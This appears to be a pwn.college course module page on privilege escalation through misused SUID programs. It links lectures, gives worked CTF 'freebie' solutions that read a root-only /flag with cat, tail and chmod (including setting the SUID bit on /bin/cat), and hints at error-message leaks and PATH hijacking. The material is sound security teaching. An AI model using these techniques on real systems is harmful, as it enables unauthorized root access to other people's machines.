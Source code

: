 # Module: Misusing Programs

This module explores the impact of program misuse (specifically, of SUID programs) on the security of a system.

## Lectures

The video for the lecture is this:

- [Privilege Escalation](https://youtu.be/ZWxYWdiXqD8) (slides [here](https://docs.google.com/presentation/d/1EB7dL5gx3pQlPDqZSEqTtlDiJRZmHGbqRnwxgm4feuw/edit#slide=id.g8a9f5b81a5_0_0))
- [Mitigations](https://youtu.be/kzbyvr_PJ9k) (slides [here](https://docs.google.com/presentation/d/1pvWd6n4UN3lZ1BdRySWDl80iEYGRJj9VC5exbYlGdAg/edit#slide=id.g8a9f5b81a5_0_0))

Additionally, the following lectures may be useful for this module:

- [Program Interaction: Binary Files](https://www.youtube.com/watch?v=nKqFeYJ483U) (slides [here](https://docs.google.com/presentation/d/1wrX8tvwaxIEk5hx4OtQmPqps-MScIaDO-9bTKQqr8vI/edit?usp=sharing))
- [Program Interaction: Linux Process Loading](https://www.youtube.com/watch?v=kUMCAzSOY-o) (slides [here](https://docs.google.com/presentation/d/1TwM5WLWnTqrNkpXjGKkaXYbKZEpatEQYA7ckBVXAOhs/edit?usp=sharing))
- [Program Interaction: Linux Process Execution](https://www.youtube.com/watch?v=Vtb5wIlthRg) (slides [here](https:
//docs.google.com/presentation/d/1ezY9Q8I0tzDD-7ZDXMbQM5RQ7z1dvB9-U_nDEhc6qdE/edit#slide=id.g8a9f5b81a5_0_0))

## Practice

Practice problems for this module will go live on [the dojo](https://dojo.pwn.college) on **August 24, 2021**.

## Freebies!

Here are several freebies to help you get started.
Feel free to use these solutions!
Later programs will be more tricky.

`cat` is a program that concatenates files and prints them out to standard out.
Thus, after launching an instance with `/bin/cat` as the chosen file, retrieving the flag with it is quite simple:

```
hacker@b38bdd753b5b:~$ cat /flag
pwn_college{747985b99bd25b8805ced639297720ae71e87a7acef580dc6b514143e5152133}
hacker@b38bdd753b5b:~$ exit
```

As you can see, this gives you the flag associated with `cat`.
Let's choose another program: say, `tail` (you may use this for another solution!).
`tail` is a program that prints out the last few lines of a file.
Since the `/flag` file only has one line (the flag), this is perfect for us!
Specifying `/usr/bin/tail`, you will receive another flag:

```
hacker@b38bdd753b5b:~$ tail /flag
pwn_college{7ca9d3c2fcbaa0c0cde22777bfefff2a5f5ac707f5194f91cd24226dbae0b74b}
hacker@b38bdd753b5b:~$ exit
```

Now, you have two flags: one for `cat` and one for `tail`.
Note that, while `cat` and `tail` is easy, other programs are not so simple to read flags with.

For a slightly more complex example, let's look at `/usr/bin/chmod`.
`chmod` is a program that can change permissions of files.
There are _many_ ways to read the `/flag` file with `chmod`.
We'll cover a few here (feel free to use this for one of your solutions!).

First, we can simply change the permissions of the `/flag` file to allow us to read it:

```
hacker@5d1f52fff4e8:~$ chmod 644 /flag
hacker@5d1f52fff4e8:~$ cat /flag
pwn_college{36ef1e24753a8e3119eeac953e44f47f48aa388f9a72e2cb2d54fc9a622c5ef8}
hacker@5d1f52fff4e8:~$ exit
```

Second, we can make the `/bin/cat` binary SUID, so that _it_ runs as root and lets us read the flag.

```
hacker@5d1f52fff4e8:~$ chmod 4755 /bin/cat
hacker@5d1f52fff4e8:~$ cat /flag
pwn_college{36ef1e24753a8e3119eeac953e44f47f48aa388f9a72e2cb2d54fc9a622c5ef8}
hacker@5d1f52fff4e8:~$ exit
```

And we can do the same with other binaries, such as `/usr/bin/tail`:

```
hacker@5d1f52fff4e8:~$ chmod 4755 /usr/bin/tail
hacker@5d1f52fff4e8:~$ cat /flag
pwn_college{36ef1e24753a8e3119eeac953e44f47f48aa388f9a72e2cb2d54fc9a622c5ef8}
hacker@5d1f52fff4e8:~$ exit
```

Note that all three ways of getting the flag after specifying `chmod` _get the same flag_.
One challenge, one flag, and `chmod` is one challenge.
`chmod` is great, and it'll let you run _any_ binary with SUID, but it'll only get you one flag.

Now you have _three_ freebies.
Go get the rest!

## HINT: Reading program documentation

To get a flag using a given program, you need to understand how the program works.
For `cat` and `tail` it's easy.
Can you get the flag using `whiptail`, a program that is used to create TUIs (Text User Interfaces)?
Hint: yes, but you need to know how to use whiptail!

So, how do you learn?
There are two main ways: the program help and the program manual.
The program help is generally accessed by using the `-h`, `--help`, or `--usage` options (i.e., `whiptail --usage`).
The program manual is generally accessible using the `man` or `info` commands (`man whiptail` or `info whiptail`).

To save disk space, the manuals aren't installed on our system, but you can also find manuals on google.
For example, googling `man whiptail` will bring up the `whiptail` manual.

Remember!
This is a _hacking_ challenge. You will have to *abuse* these programs.
They might not be originally intended to read out files, but you can often misuse their functionality to do so.
Their documentation is your friend.

## HINT: Dealing with errors

In the course of trying to abuse programs into giving you the flag, they might fail in weird ways.
They might also fail in weird ways because of the way the container is run.
As a rule of thumb, you should google all the errors that you get.
Sometimes, the solution is quite simple!

`/bin/whiptail` is a great example of this: depending on exactly how you interact with the dojo, some it might not work at all right out of the box, but the error that it gives you (`TERM environment variable needs set.`), and the [first result on google](https://stackoverflow.com/questions/16242025/term-environment-variable-not-set) shows you how to fix that.
There are other good examples of this (such as `/bin/nano`).

## Other hints

Also keep in mind a few hints:

1. The flag is stable across connections and program executions, for the same SUID binary. That means that you don't necessarily have to read the entire flag, cleanly, in one swoop. Some programs might mangle it (but in a way that you can unmangle), and some programs might only be able to leak a small amount of it in a single execution, but can leak the whole flag when executed multiple times. If you find the flag changing for a single program, that probably means that the program itself is mangling it.
1. Think very carefully about how programs present information to you when they don't think that information is something critical. Debug info when debug flags are enabled. Error messages containing data that isn't sensitive when it's data you have access to anyways, but could be sensitive when the program has access to data that you don't have access to. These situations expose methods that you can abuse certain programs to get flags.
1. Sometimes, lazy programmers call out to other utilities instead of writing the functionality themselves. What happens if those other utilities are SUID root? What happens if you can influence where those other utilities are launched from (i.e., check out the PATH variable). This relies on lazy programming of the utilities that you are attacking, so you might want to pick up other targets before going down this path.

## Further Reading

Some other useful resources:

- A primer on Linux file permissions: [https://wiki.archlinux.org/index.php/File_permissions_and_attributes](https://wiki.archlinux.org/index.php/File_permissions_and_attributes)
- A primer on privilege escalation attacks against Linux hosts. The SUID abuse section has obvious implications for this assignment: [https://payatu.com/guide-linux-privilege-escalation/](https://payatu.com/guide-linux-privilege-escalation/)
- Some thoughts on abusing dangers in SUID executables: [https://www.pentestpartners.com/security-blog/exploiting-suid-executables/](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/)
- Another SUID attack tutorial: [https://null-byte.wonderhowto.com/how-to/use-misconfigured-suid-bit-escalate-privileges-get-root-0173929/](https://null-byte.wonderhowto.com/how-to/use-misconfigured-suid-bit-escalate-privileges-get-root-0173929/)
- Another SUID tutorial. It is focused on shell scripts, but there are insights that can be used: [http://www.drdobbs.com/dangers-of-suid-shell-scripts/199101190](http://www.drdobbs.com/dangers-of-suid-shell-scripts/199101190)
